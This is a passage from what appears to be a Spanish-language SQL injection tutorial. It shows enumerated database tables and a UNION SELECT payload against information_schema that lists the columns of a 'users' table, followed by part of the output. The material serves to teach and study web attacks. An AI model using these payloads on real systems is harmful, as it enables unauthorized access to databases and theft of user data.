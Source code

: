 Devuelve las tablas:

. artists

. carts

. categ

. featured

. guestbook

. pictures

. products

. users

<br>
Visualizando columnas de la tabla "users":

Payload:

<pre><font class="ej">URL</font> + <font class="bordo">UNION SELECT 1,2,3,4,5,6,column_name,8,9,10,11 FROM information_schema.columns WHERE table_name="users";#</font></pre>

![v_columnas](/assets/img/screens/columnas_1.png)

Devuelve las columnas:

. address

. cart
